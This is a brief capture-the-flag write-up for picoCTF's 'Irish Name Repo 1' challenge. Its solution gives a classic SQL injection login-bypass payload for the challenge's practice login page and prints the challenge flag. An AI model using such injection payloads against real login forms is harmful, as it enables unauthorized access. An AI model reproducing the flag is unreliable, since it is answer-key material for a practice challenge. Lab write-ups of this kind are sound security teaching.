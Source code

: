 # Irish Name Repo 1

## Problem

There is a website running at https://jupiter.challenges.picoctf.org/problem/50009/ (link) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## Solution

here's the payload on the page https://jupiter.challenges.picoctf.org/problem/50009/login.php you should enter:

username: `' OR 1=1; --`

password: `test`

FLAG: `picoCTF{s0m3_SQL_fb3fe2ad}`